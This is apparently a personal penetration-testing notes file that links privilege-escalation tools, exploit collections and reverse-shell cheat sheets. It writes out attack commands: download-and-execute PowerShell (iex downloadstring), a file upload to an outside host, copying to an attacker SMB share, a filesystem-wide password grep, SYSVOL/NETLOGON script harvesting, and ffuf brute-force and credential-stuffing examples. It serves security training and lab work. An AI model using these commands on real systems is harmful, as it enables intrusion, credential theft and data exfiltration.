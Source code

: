 # My notes

###### My General Notes.

  This notes contains link of tools, link of cheatsheets, Commands etc.

## Python pip

1. `Python2 -m pip YOUR_COMMAND` OR `pip2 YOUR_COMMAND`

2. `Python3 -m pip YOUR_COMMAND` OR `pip3 YOUR_COMMAND`

## Python3 server

1. Local server in current directory: `python3 -m http.server PORT`

2. Local server in specified directory:

    `python3 -m http.server PORT --directory DIRECTORY`

## Msfvenom CheatSheet

[MSFVenom - CheatSheet - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

## Peas Family

LinPeas and Winpeas located ate my [`Privesc_scripts`](https://github.com/CalegariMindSec/Privesc_scripts) repository.

[GitHub - carlospolop/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/carlospolop/PEASS-ng)

## Windows PrivEsc Scripts

[`My Privesc Scripts - Windows`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Windows_Privesc)

[PowerSploit/Privesc at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

[GitHub - 7Ragnarok7/Windows-Exploit-Suggester-2: A tool to recommend available exploits for Windows Operating Systems](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)

[GitHub - r3motecontrol/Ghostpack-CompiledBinaries: Compiled Binaries for Ghostpack (.NET v4.0)](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[GhostPack · GitHub](https://github.com/GhostPack)

### Windows PrivEsc Kernel Exploits

[Windows Exploits](https://github.com/abatchy17/WindowsExploits)

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

[Exploitdb-bin-sploits/bin-sploits at master · offensive-security/exploitdb-bin-sploits · GitHub](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)

### Windows PrivEsc CheatSheet

[Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

[Notes TCM Course](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

[PayloadAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Linux PrivEsc Cheatsheet

[`My Privesc Scripts - Linux`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Linux_Privesc)

[Linux Privilege Escalation - HackTricks Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[PayloadAllTheThings - Linux ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

### Windows Binaries

[LOLBAS Project](https://lolbas-project.github.io/)

### Unix Binaries

[GTFOBins](https://gtfobins.github.io/)

### Listerners (Better Alternatives to Netcat)

[Netpwn](https://github.com/anthares101/netpwn)

[Pwncat](https://github.com/calebstewart/pwncat)

### File Download - Windows

1. ```powershell
   certutil.exe -urlcache -f http://IP:PORT/FILE.exe FILE.exe
   ```

2. ```powershell
   powershell -c (new-object System.Net.WebClient).DownloadFile('http://IP:PORT/FILE', 'C:\FULL\PATH\FILE')
   ```

3. ```powershell
   powershell.exe -command iwr -Uri http://IP:PORT/FILE -OutFile "C:\PATH\FILE"
   ```

4. ```powershell
    powershell.exe wget http://IP:PORT/FILE -OutFile FILE
   ```

5. ```powershell
   powershell iex(new-object net.webclient).downloadstring('http://IP:PORT/FILE')
   ```

6. ```powershell
   Start-BitsTransfer -Source https://IP:PORT/FILE -Destination "C:\FULL\PATH\FILE"
   ```
7. ```python3
   impacket-smbserver share . -smb2support (Attacker Machine)
   copy C:\File\To\PATH \\AttackerIP\share\
   ```

### File Upload - Windows

1. ```powershell
   powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
   ```

### File Download - Linux

1. ```bash
   wget http://IP:PORT/FILE
   ```

2. ```bash
   curl http://IP:PORT/FILE -o FILE
   ```

### Python3 tty Shell Spawning

1. ```python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

2. ```python
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   ```

### Active Directory Exploitation

[GitHub - S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory.](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
[CME cheat sheet](https://wiki.porchetta.industries/)
[Kerberos Attack](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Reverse shell

[Reverse Shell Generator](https://www.revshells.com/)
[Reverse shell cheat sheet PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Find Passwords Linux

  *
      ```
      grep --color=auto -rnw '/' -ie "Password" --color=always 2>/dev/null
      ```

### Download Scripts From SBM Netlogon and Sysvol

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R SYSVOL --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R NETLOGON --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```

### FFUF Brute Force And Credential Stuffing

  * Brute Force - Example:
    ```
    ffuf -request req.txt -w xato-net-10-million-passwords-10000.txt -request-proto http -fc 401
    ```

  * Credential Stuffing - Example:
    ```
    ffuf -request req.txt -w user:FUZZ1 -w pass:FUZZ2 -request-proto http -mode pitchfork -x http://127.0.0.1:8080 -fc 401
    ```

### Kali Linux Windows Features

  * 1 ) [pwsh](https://www.kali.org/tools/powershell/) - Powershell Terminal
  * 2 ) [wine](https://www.winehq.org/) - Run Run Windows applications on Linux, BSD, Solaris
    * 2.1) [Install](https://techviewleo.com/how-to-install-wine-on-kali-linux/)
  * 3 ) [mono](https://www.mono-project.com/) - Mono is a software platform designed to allow developers to easily create cross platform applications
    * 3.1) [Install](https://linuxize.com/post/how-to-install-mono-on-ubuntu-20-04/)
  * 4 ) [ILspycmd](https://github.com/icsharpcode/ILSpy/tree/master/ICSharpCode.ILSpyCmd) - ILSpy is the open-source .NET assembly browser and decompiler.
    * 4.1) [Install](https://www.nuget.org/packages/ilspycmd/)
    * 4.2) [Usage Example - HTB Support Machine Writeup]()
    * 4.3) **Command example:** ilspycmd FILE.exe -p -o /Path/To/File/
